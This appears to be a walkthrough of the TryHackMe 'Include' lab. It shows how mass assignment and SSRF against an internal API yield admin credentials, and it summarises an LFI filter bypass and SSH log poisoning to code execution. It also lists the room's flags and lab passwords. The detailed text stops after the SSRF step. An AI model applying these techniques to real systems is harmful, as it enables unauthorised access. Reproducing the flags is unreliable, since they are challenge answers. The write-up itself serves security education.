# Include — Web Pentest Walkthrough

*From Exposed Service Enumeration to Local File Inclusion and Remote Code Execution via Log Poisoning*

**TryHackMe Room:** Include &nbsp;|&nbsp; **Engagement Type:** Black-Box Web / Server-Side Attack Simulation

---

## Task Scenario

This room is an initial test of web pentesting capability, focused specifically on **server-side attacks**. The target VM exposes several services, and the room hints that even content "not accessible from the browser" by default can still be reached and exploited.

The objective, per the room's two questions, was to:

1. Retrieve the flag shown after logging into the **SysMon** monitoring application.
2. Retrieve the contents of a **hidden text file** located in `/var/www/html` on the target.

### Scope

| Target | Role |
|---|---|
| `10.48.187.216` (lab IP, changed to `10.48.177.157` after a mid-engagement VM restart) | Single lab VM exposing SSH, mail services, and two web applications |

**In scope:** All services discovered on the lab machine; any credentials or internal data discovered along the way.


*Figure 1 — Room brief: the challenge asks for (1) the SysMon login flag and (2) the content of a hidden text file in `/var/www/html`, and hints that content "not accessible from the browser" may still be reachable.*

---

## Summary

Initial **Nmap service enumeration** revealed mail-related services (SSH, SMTP, POP3, IMAP) alongside two HTTP services on non-standard ports: a **"System Monitoring Portal" (SysMon) on port 50000** and a **Node.js "Review App" on port 4000**. The Review App's login page displayed hardcoded demo credentials (`guest`/`guest`) directly on the UI.

After logging into the Review App as `guest`, a **mass assignment vulnerability** in its "Recommend an Activity" form allowed an extra `isAdmin=true` field to be injected into the POST body, silently promoting the `guest` account to admin and unlocking hidden **API** and **Settings** navigation links.

The newly-exposed **Admin Settings** page contained a "banner image URL" field that fetched attacker-supplied URLs server-side — a classic **Server-Side Request Forgery (SSRF)** vector. This was used to make the server request its own internal-only API (`http://127.0.0.1:5000/getAllAdmins101099991`), and the raw (unmasked) JSON response was reflected back as a `data:` URI, which was **Base64-decoded via CyberChef** to recover real administrator credentials for both the Review App and the SysMon application.

Logging into **SysMon** with the recovered `administrator` credentials immediately revealed the **first flag** on the dashboard.

Directory brute-forcing with **Gobuster** against the SysMon app revealed a `profile.php?img=` parameter used to render profile pictures. Standard `../` path traversal was filtered and returned empty responses, but a **filter-bypass technique using `....//` sequences** (which collapses back into `../` after a single-pass string replacement) restored working **Local File Inclusion (LFI)**, confirmed by successfully reading `/etc/passwd` and `/var/log/auth.log`.

Because arbitrary log files could be included, an **SSH log poisoning** attack was used: a PHP payload was sent as the SSH username to a closed/invalid SSH session, causing it to be written verbatim into `/var/log/auth.log` by the SSH daemon. Including that poisoned log file via the LFI vulnerability caused the embedded PHP code to execute, achieving **Local File Inclusion → Remote Code Execution (RCE)**. This was used to run `ls` and `cat` against `/var/www/html`, revealing and reading the hidden flag file for the **second flag**.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| Review App demo login | `guest` / `guest` |
| Privilege escalation technique | Mass assignment — inject `isAdmin=true` into the "Recommend Activity" POST body |
| Internal API (via SSRF) credentials | `administrator` / `S$9$qk6d#**LQU` (SysMon) |
| LFI filter bypass | `....//` in place of `../` |
| SysMon login flag | `THM{!50_55Rf_1S_d_k3Y??!}` |
| Hidden file in `/var/www/html` | `THM{505eb0fb8a9f32853b4d955e1f9123ea}` |

---

## Techniques, Commands, and Walkthrough

Techniques are grouped below in the order they were applied. Each section names the technique category, the commands used (and why), and the supporting evidence captured during testing. **Only steps that produced working results are included**; dead ends are summarised separately under Troubleshooting Notes.

### 1. Network & Service Reconnaissance

**Category:** Network/Service Reconnaissance

A full-port scan with service/version detection and aggressive timing was used to enumerate all open ports on the target:

```bash
nmap -sC -sV -p- -T4 --min-rate=1000 -Pn 10.48.187.216
```

- `-p-` — scan all 65535 ports, since the default top-1000 scan would have missed the non-standard web ports used later in the attack chain
- `-T4 --min-rate=1000` — speed up the scan significantly over default timing
- `-Pn` — skip host-discovery ping, since some lab VMs do not respond to ICMP

**Result:** standard mail services (SSH 22, SMTP 25, POP3 110, IMAP 143/993, POP3S 995) plus two non-standard web ports:

- **Port 4000** — Node.js/Express, page title "Sign In"
- **Port 50000** — Apache/2.4.41, page title **"System Monitoring Portal"**


*Figure 2 — Full-port Nmap scan showing the standard mail-related services (SSH, SMTP, POP3, IMAP).*


*Figure 3 — Continuation of the scan, revealing port 4000 (Node.js, "Sign In") and port 50000 (Apache, "System Monitoring Portal") — the two non-standard web services central to this engagement.*

---

### 2. Hardcoded Credential Disclosure (Review App)

**Category:** Web Application Security — Sensitive Information Exposure

Port 50000's "SysMon" app presented a restricted-access notice with no visible way to proceed without credentials:


*Figure 4 — The SysMon login-gated "Restricted Portal" page on port 50000, giving no credentials or hints.*

Port 4000, however, displayed its demo credentials directly on the login screen:

```
Username: guest
Password: guest
```


*Figure 5 — The "Review App" sign-in page on port 4000, literally instructing "Sign In using guest/guest".*

Logging in revealed a simple social/review application ("Review App") showing the logged-in user's own profile plus a list of other "friends" (David, Marry):


*Figure 6 — Review App home page after logging in as guest, showing "My Profile" and two other user profiles (David, Marry).*

Each profile was reachable at a predictable `/friend/:id` route and displayed structured JSON-like fields, including an `isAdmin` flag that was `false` for every visible account:


*Figure 7 — `/friend/1`: the guest account's own profile, including `isAdmin: false` and a "Recommend an Activity" form.*


*Figure 8 — `/friend/2`: David's profile, also `isAdmin: false`.*


*Figure 9 — `/friend/3`: Marry's profile, also `isAdmin: false`. IDs 4+ returned empty/404, confirming the friends list was fixed rather than a simple incrementing ID range (ruling out basic IDOR).*

---

### 3. Mass Assignment — Privilege Escalation to Admin

**Category:** Web Application Exploitation — Insecure Object Property Injection (Mass Assignment)

Browser DevTools' Network tab was used to inspect the exact request made when submitting the "Recommend an Activity" form on a friend's profile page:

```
POST /friend/1
Content-Type: application/x-www-form-urlencoded

activityType=book&activityName=321
```


*Figure 10 — Firefox DevTools Network tab (Request panel) confirming the exact form field names (`activityType`, `activityName`) and target endpoint for the "Recommend Activity" POST request.*

This confirmed the backend likely merges the submitted form fields directly onto the target friend's object (a classic mass-assignment pattern, e.g. `Object.assign(friend, req.body)` in Express/Node). To test this, the form was resubmitted with an **extra, unexpected field** added directly through the browser form inputs:

```
Field 1: isAdmin
Field 2: true
```

Submitting this via the "Recommend an Activity to guest" form flipped the account's privilege flag:

```
isAdmin: "true"
```

and unlocked two previously hidden navigation links — **API** and **Settings** — that were not shown to a normal, non-admin guest session.


*Figure 11 — After submitting `isAdmin=true` through the activity-recommendation form, `/friend/1` now shows `isAdmin: "true"`, and the navbar reveals new "API" and "Settings" links unavailable to a standard guest session.*

**Why this worked:** the server trusted the raw POST body and merged every field onto the user/friend record with no allow-list of permitted fields, letting an attacker set arbitrary object properties — including sensitive ones like `isAdmin` — that were never meant to be client-controlled.

---

### 4. Server-Side Request Forgery (SSRF) via Admin Banner Settings

**Category:** Web Application Exploitation — Server-Side Request Forgery (SSRF)

The newly unlocked **API Dashboard** page documented an *internal-only* API running on `127.0.0.1:5000` (i.e., localhost on the server itself, unreachable directly from the attacker's machine) that returns admin credentials — but the documentation page only showed **masked/sample** values:

```
GET http://127.0.0.1:5000/getAllAdmins101099991
Response:
{
  "ReviewAppUsername": "admin",
  "ReviewAppPassword": "xxxxx",
  "SysMonAppUsername": "administrator",
  "SysMonAppPassword": "xxxxxxxxx"
}
```


*Figure 12 — The newly unlocked API Dashboard documenting an internal-only API at `127.0.0.1:5000` that returns admin credentials — shown here only as masked placeholder values.*

The companion **Admin Settings** page contained an "Update Banner Image URL" field that fetched whatever URL was supplied and rendered it server-side (confirmed by its normal use with an `imgbb.com`-hosted image):


*Figure 13 — The Admin Settings page's "Update Banner Image URL" field, which triggers a server-side fetch of the supplied URL — the SSRF entry point.*

Since the server fetches this URL itself, it has access to internal network locations the attacker cannot reach directly. The field was repointed at the internal API endpoint documented above:

```
http://127.0.0.1:5000/getAllAdmins101099991
```

Submitting this caused the "Current Banner Image URL" to update to a `data:application/json;charset=utf-8;base64,...` URI — the server had fetched the internal API and embedded its real, **unmasked** JSON response directly into the page as Base64-encoded data:


*Figure 14 — After pointing the banner-image SSRF at the internal API, the "Current Banner Image URL" field now holds a `data:application/json;base64,...` URI containing the real admin credentials.*

The Base64 string was decoded using **CyberChef** (`From Base64` recipe):

```
Recipe: From Base64 (Alphabet: A-Za-z0-9+/=)
```

**Decoded result:**
```json
{
  "ReviewAppUsername": "admin",
  "ReviewAppPassword": "admin@!!!",
  "SysMonAppUsername": "administrator",
  "SysMonAppPassword": "S$9$qk6d#**LQU"
}
```

